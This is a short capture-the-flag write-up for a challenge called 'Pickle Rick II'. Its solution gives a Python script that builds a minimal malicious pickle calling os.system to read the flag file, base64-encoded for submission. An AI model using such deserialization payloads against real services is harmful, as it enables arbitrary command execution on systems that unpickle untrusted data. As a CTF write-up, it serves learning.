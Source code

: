 # Pickle Rick II
**Category:** misc

**Author:** _Rok0'sBasilisk_

## Description
It's Pickle Riiickkk again! But even smaller! 

## Solution
<details>
 <summary>Reveal Spoiler</summary>
This challenge is the same a pickle rick 1 but 2 bytes less! Solution is same as Pickle Rick I but without the protocol.

Here is a working exploit:
```
import base64

from pickle import PROTO, SHORT_BINUNICODE, GLOBAL, TUPLE1, REDUCE, STOP

golf_payload = \
    GLOBAL + b"os\nsystem\n" + \
    SHORT_BINUNICODE + b"\x05" + b". /f*" + \
    TUPLE1 + \
    REDUCE + \
    STOP

print(base64.b64encode(golf_payload).decode("utf-8"))
```

Note that you need to use `ls` initially, to observe that the flag is in the root dir.
</details>